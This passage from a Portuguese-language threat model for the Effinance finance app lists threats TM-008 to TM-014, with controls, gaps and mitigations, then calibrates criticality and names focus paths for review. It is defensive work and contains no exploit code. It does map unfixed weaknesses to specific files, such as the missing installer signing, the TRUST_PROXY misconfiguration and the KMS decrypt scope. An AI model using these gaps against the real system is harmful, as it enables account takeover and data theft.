| TM-008 | Distribuidor falso / cadeia de build | Usuário baixa instalador fora do GitHub, ou artefato adulterado | Instalador/renderer modificado (renderer fica fora do asar em `resources/renderer`) | Comprometimento total do usuário desktop | Instalador, dados desktop, chave mestra | Actions fixadas por SHA, lockfile congelado, `permissions` mínimas, SHA-256 nas notas (`desktop.yml`); asar ligado (`electron-builder.yml`) | Sem assinatura de código (usuários treinados a ignorar SmartScreen); sem Electron Fuses (`RunAsNode`, `NodeOptions`, `OnlyLoadAppFromAsar`, integridade do asar); sem canal de atualização assinado | Condicional à distribuição pública: assinar (Azure Trusted Signing/OV) antes de terceiros instalarem; `@electron/fuses` desligando RunAsNode/NodeOptions/inspect e ligando `EmbeddedAsarIntegrityValidation`/`OnlyLoadAppFromAsar` (renderer dentro do asar); publicar hash em página própria | Monitorar downloads/domínios com "Effinance Setup" | low | high | medium |
| TM-009 | Atacante remoto contra webhooks | Segredo do webhook Pluggy vazado de logs de borda, ou replay de notificação MP | Dispara sincronizações em massa; reenvia eventos | Consumo de cota da Pluggy/DoS; ruído em auditoria (sem injeção de dados) | Segredos de integração, disponibilidade | Tempo constante + idempotência + reconsulta (`open-finance/webhooks.ts`, `billing/providers/signature.ts`); mascaramento no log da app (`lib/log.ts`); regras de WAF (guia §8) | Segredo no caminho aparece em logs de CloudFront/ALB/WAF; `eventId` do MP vem do corpo não assinado | Restringir/filtrar logs de borda (guia já pede); rotação periódica do segredo do webhook com dois valores aceitos; usar `x-request-id`+`data.id` assinados como chave de idempotência do MP | Alarme de taxa de webhooks e de `401` no webhook | low | medium | low |
| TM-010 | Atacante remoto | Implantação divergente do guia (`TRUST_PROXY`, origem exposta, sem Redis) | Forja `X-Forwarded-For` ou distribui tentativas entre tarefas | Rate limits ineficazes (login, 2FA, redefinição, importação); IPs falsos em auditoria/sessões | Credenciais, auditoria, disponibilidade | `trustProxy` por número de saltos (`app.ts`); guia exige ALB interno + `TRUST_PROXY=2` + Redis (`docs/deploy-aws.md` §Arquitetura, §6) | Código assume `TRUST_PROXY=1` e Redis opcional mesmo em produção; nada falha ao subir sem eles | Em `env.ts`, exigir `REDIS_URL` e `TRUST_PROXY` explícito quando `NODE_ENV=production` (mesmo padrão "fail closed" já usado); teste de fumaça pós-deploy com IP forjado (checklist do guia) | Comparar IP de auditoria com logs do CloudFront; alarme de 429 zerado sob carga | medium | medium | medium |
| TM-011 | Usuário autenticado (teste grátis) | Contas criadas em lote | Prévias de importação de ~8,6 MiB, relatórios de 36 meses e sync em paralelo | Degradação/indisponibilidade da API para todos | Disponibilidade API/RDS | Limites de tamanho/linhas (`integrations.ts`), `bodyLimit` por rota (`imports/routes.ts`), rate limit por IP, `statement_timeout` 15 s (`lib/tenant.ts`), limites de papel no RDS (guia §3) | Parse síncrono no event loop; limites só por IP (não por conta/workspace); cadastro sem verificação facilita contas em lote | Limites por workspace para importação/relatórios; mover parse de importação para `worker_threads` com timeout; exigir e-mail verificado para importar | Métrica de latência p95 por rota e CPU por tarefa; alerta de contas novas com importação imediata | medium | medium | medium |
| TM-012 | Atacante com RCE/dependência maliciosa na API, ou insider com acesso à conta AWS | Execução de código na task da API ou acesso ao Secrets Manager | Lê `JWT_SECRET`, tokens MP/Pluggy e usa a task role para `kms:Decrypt` de qualquer workspace | Comprometimento de todos os tenants e dos dados bancários no agregador | Chaves, segredos, todos os dados | Imagem endurecida (UID 10001, FS somente leitura, por digest), KMS com contexto + `aws:SourceVpce`, execution role ≠ task role, CloudTrail com eventos KMS (guia §2, §5–6, §11); CI com `pnpm audit`/gitleaks | Tudo depende de configuração de conta ainda não implantada; a task role decifra qualquer workspace por desenho | Condicional ao deploy: aplicar o guia e validar com o checklist; alarme de volume anômalo de `kms:Decrypt` por task; rotação planejada de `JWT_SECRET` e segredos de integração; egress da task restrito a MP/Pluggy/SES via NAT com allowlist | CloudTrail KMS por `workspaceId`; GuardDuty ECS Runtime | low | high | medium |
| TM-013 | Usuário da demo / terceiro no host | Pessoa digita dados reais na demo, ou outro conteúdo na mesma origem do host | Lê IndexedDB/`localStorage` da demo; decifra com a chave pública | Exposição de dados que nunca deveriam estar lá | Dados digitados na demo | Chave e credenciais declaradamente públicas (`demo/server.ts`); seed fictício; checklist manda manter `dist-demo` fora do domínio de produção | Nada na UI impede uso real; origem do artifact pode ser compartilhada | Faixa fixa "Demonstração — não use dados reais" no build demo; manter a demo fora de qualquer origem do SaaS | — | low | low | low |
| TM-014 | Atacante remoto usando o produto | Conta de teste | Convites para e-mails arbitrários com nome de espaço enganoso; enumeração de contas pelo 409 do cadastro | Phishing a partir do domínio do Effinance; reputação SES | Reputação de e-mail, usuários | Texto puro, assunto sanitizado (`lib/mailer.ts` `oneLine`); 30 convites/h por espaço e 10 espaços por usuário (`workspaces/routes.ts`); DMARC/DKIM (guia §9) | Sem verificação de e-mail do remetente; nome do espaço livre no corpo | Exigir e-mail verificado para convidar; limitar caracteres/URLs no nome do espaço usado em e-mail; resposta genérica no cadastro | Alarme de bounce/complaint SES (guia §9) | low | medium | low |

## Criticality calibration

- **critical** — comprometimento amplo sem pré-condição forte: acesso entre tenants sem
  autenticação; forjar sessão de qualquer usuário; decifrar dados de todos os workspaces.
  Ex.: rota financeira montada sem `tenantRoutes` e com grants no login da API; `JWT_SECRET` +
  ids de sessão vazando juntos; política KMS permitindo `Decrypt` sem contexto a qualquer role.
- **high** — perda de confidencialidade de uma conta/espaço inteiro com probabilidade realista,
  ou de muitos usuários com pré-condição moderada. Ex.: tomada de conta + exportação LGPD
  (TM-002); backup quebrado offline com senha fraca (TM-004); vazamento entre tenants por IDOR em
  rota de membros (TM-001 se confirmado).
- **medium** — exige pré-condição improvável (cadeia de suprimentos, RCE, configuração errada)
  ou afeta disponibilidade/integridade de forma recuperável. Ex.: dependência maliciosa no
  renderer usando a ponte IPC (TM-006); rate limit burlado por `TRUST_PROXY` errado (TM-010);
  DoS por importações grandes (TM-011).
- **low** — dano limitado ou dependente de ação explícita e incomum da vítima. Ex.: restauração
  de backup de terceiros (TM-007); replay de webhook sem efeito de dados (TM-009); dados reais na
  demo (TM-013).

## Focus paths for security review

| Path | Why it matters | Related Threat IDs |
| --- | --- | --- |
| `apps/api/src/modules/workspaces/routes.ts` | Membros, convites, exportação e auditoria fora do RLS, só com checagem manual | TM-001, TM-002, TM-014 |
| `apps/api/src/modules/workspaces/service.ts` | Regras de papel, limite de membros, aceite de convite, exclusão | TM-001 |
| `apps/api/src/modules/workspaces/access.ts` | `loadAccess`/`assertCanWrite`: decisão de acesso de toda requisição | TM-001 |
| `apps/api/src/modules/auth/routes.ts` | Limites de login/2FA/redefinição, `switch-workspace`, exclusão de conta | TM-002, TM-010 |
| `apps/api/src/modules/auth/service.ts` | Cadastro (enumeração, sem verificação), senha, redefinição | TM-002, TM-014 |
| `apps/api/src/modules/auth/sessions.ts` | Rotação de refresh, reuso, troca de workspace da sessão | TM-001, TM-002 |
| `apps/api/src/lib/tenant-routes.ts` | Fronteira RLS das rotas financeiras e envio adiado da resposta | TM-001 |
| `apps/api/src/lib/tenant-scope.ts` | Fronteira RLS em fases (imports, Open Finance) | TM-001 |
| `apps/api/drizzle/` | Políticas RLS, FKs compostas e grants de cada tabela nova | TM-001 |
| `apps/api/test/db-roles.ts` | Modelo de grants mínimos que os testes garantem | TM-001, TM-012 |
| `apps/api/src/app.ts` | CSRF, CORS, `trustProxy`, rate limit, parser JSON | TM-003, TM-010 |
| `apps/api/src/env.ts` | Travas de produção (faltam Redis e `TRUST_PROXY`) | TM-010, TM-012 |
| `apps/api/src/modules/imports/` | Parsers OFX/CSV e limites de tamanho/CPU | TM-011 |
| `apps/api/src/modules/open-finance/` | Posse do item (`clientUserId`), webhook por segredo, sync em segundo plano | TM-009, TM-012 |
| `apps/api/src/modules/billing/` | HMAC, idempotência e adoção de assinatura por `external_reference` | TM-009 |
| `apps/api/src/lib/crypto/` | Envelope KMS, AAD, índice cego, chaves de plataforma | TM-012 |
| `apps/web/src/lib/csp.ts` | Política que limita XSS e terceiros | TM-003, TM-006 |
| `apps/desktop/src/main.ts` | Handlers IPC sem checagem de remetente; `openExternal`; backup ao fechar | TM-006, TM-007 |
| `apps/desktop/src/backup-file.ts` | KDF, formato e descompressão do backup | TM-004, TM-007 |
| `apps/desktop/src/backup-service.ts` | Política de senha e herança de chave/senha na restauração | TM-004, TM-007 |
| `apps/web/src/desktop/snapshot.ts` | Restauração como superusuário com triggers/FKs desligados | TM-007 |
| `apps/desktop/src/drive.ts` | OAuth loopback/PKCE e uso do refresh token | TM-004, TM-006 |
| `apps/desktop/src/store.ts` | Cofre DPAPI e arquivos no perfil | TM-005 |
| `apps/desktop/electron-builder.yml` | Empacotamento (renderer fora do asar, sem fuses/assinatura) | TM-008 |
| `.github/workflows/desktop.yml` | Build do instalador com `contents: write` e secrets | TM-008 |
| `apps/web/src/demo/server.ts` | Chave pública da demo e reuso da mesma pilha no desktop | TM-005, TM-013 |

## Quality check

- [x] Pontos de entrada cobertos: rotas públicas e autenticadas da API, webhooks MP e Pluggy,
  importação OFX/CSV, OAuth Google (loopback) e consentimento Pluggy (widget), protocolo `app://`
  e IPC, arquivo de backup restaurado, login local, demo e release do instalador.
- [x] Cada fronteira aparece em ao menos uma ameaça: Internet→API (TM-002/010/011/014),
  API→Postgres/RLS (TM-001), API→KMS/segredos (TM-012), provedores→webhooks (TM-009),
  renderer→main (TM-006), main→disco (TM-005), arquivo→app (TM-007), main→Google (TM-004),
  host→demo (TM-013), CI→usuário (TM-008), web→terceiros (TM-003).
- [x] Runtime separado de CI/build (TM-008, TM-012) e de testes (fora de escopo, usados só como
  evidência).
- [x] Validação com o usuário não realizada por instrução; suposições e perguntas listadas em
  "Scope and assumptions" e recomendações dependentes marcadas como condicionais.
- [x] Nenhum segredo reproduzido (credenciais públicas da demo citadas apenas por localização).
